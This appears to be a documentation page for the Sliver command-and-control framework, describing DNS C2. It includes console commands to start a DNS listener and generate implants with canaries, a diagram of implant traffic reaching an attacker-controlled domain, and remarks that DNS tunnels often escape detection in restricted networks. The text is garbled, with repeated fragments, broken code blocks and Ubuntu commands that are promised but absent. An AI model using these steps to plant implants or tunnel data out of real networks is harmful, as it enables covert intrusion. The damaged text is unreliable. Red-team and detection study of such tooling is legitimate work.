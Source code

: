 # Setup
### DNS Listeners
Make sure you have a DNS listener running, and to use the FQDN again. Sliver will not be able to correctly parse C2 traffic if the parent domain is misconfigured:
```
sliver > dns --domains 1.example.com.

[*] Starting DNS listener with parent domain(s) [1.example.com.] ...
[*] Successfully started job #1
```

### DNS Canaries
Example `generate` command with canaries, make sure to use the FQDN:
```
sliver > generate --http foobar.com --canary 1.example.com.
```

### Ubuntu
**NOTE:** On recent versions of Ubuntu, you may need to disable `systemd-resolved` as this binds to your local UDP:53 and messes up everything about how DNS is supposed to work. To use a sane DNS configuration run the following commands as root because `resolved` probably broke `sudo` too:
```
[implant] <--> [resolver]
                  |<------> [.]
                  |<------> [.com.]
                  |<------> [example.com.] (attacker controlled)
```

`generate --dns 1.example.com.`

`
sliver > dns --domains 1.example.com.

[*] Starting DNS listener with parent domain(s) [1.example.com.] ...
[*] Successfully started job #1
`

`
sliver > generate --http foobar.com --canary 1.example.com.
`

` command.

### Ubuntu

**NOTE:** On recent versions of Ubuntu, you may need to disable `

`

# Under the Hood

**NOTE:** This describes the v1.5+ implementation of DNS C2. Also, I'm not going to cover the cryptographic key exchange, which you can read about [here](/docs?name=Transport+Encryption), this is just about how do we move bytes back and forth.

### Design Goals

The current implementation of DNS C2 is primarily designed for "speed" (as far as DNS tunnels go) NOT stealth; it does not intend to be subtle in its use of DNS to tunnel data. While DNS can be a very useful protocol for stealthy signaling, Sliver here is creating a full duplex tunnels, doing so covertly would generally be far too slow to be practical. The general rule of thumb is that DNS C2 is easy to detect _if you look_. That's not to say DNS C2 isn't useful or will be immediately detected as is often no one looks. As DNS does not require direct "line of sight" networking, it is often useful for tunneling out of highly restricted networks, and if the environment has not been instrumented to specifically detect DNS C2 it will likely go undetected.

For example glossing over some details, if a DNS client attempts to `

`
[implant] <--> [resolver]
                  |<------> [.]
                  |<------> [.com.]
                  |<------> [example.com.] (attacker controlled)
`

